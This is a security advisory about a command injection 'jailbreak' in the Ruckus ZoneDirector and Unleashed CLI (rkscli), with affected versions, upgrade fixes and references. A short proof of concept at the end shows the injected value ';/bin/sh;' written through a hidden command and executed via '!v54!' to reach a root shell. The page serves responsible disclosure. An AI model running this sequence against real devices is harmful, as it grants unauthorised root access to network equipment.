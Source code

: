 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'Medium'
alephid: ALEPH-2019004
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Ruckus CLI (rkscli) jailbreak'
---
```

This is a command injection vulnerability via a crafted CLI command with admin privilege.

`/usr/bin/rkscli` is a CLI used by Ruckus for user interaction and run commands by their web interface. `rkscli` has a hidden CLI command `Ruckus` that writes a limited string to `/writable/etc/system/access`. `!v54!` is another hidden command. If `!v54!` do not receive any arguments it executes `/usr/sbin/sesame` with that content of  `/writable/etc/system/access`.

`Ruckus` command can write a command injection payload into `/writable/etc/system/access`. Then `!v54!` can execute this payload and this way, escape to `busybox` shell.

Information about the exploitation of the vulnerability can be found in our [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=1718).


## Proof Of Concept ##
Jail breaking Ruckus CLI using this exploit
```
rkscli: Ruckus <-input ";/bin/sh;"
grrrr

rkscli: !v54!
What's your chow: 


Ruckus Wireless ZoneDirector -- Command Line Interface
Enter 'help' for a list of built-in commands.

ruckus$ echo $USER
root
```
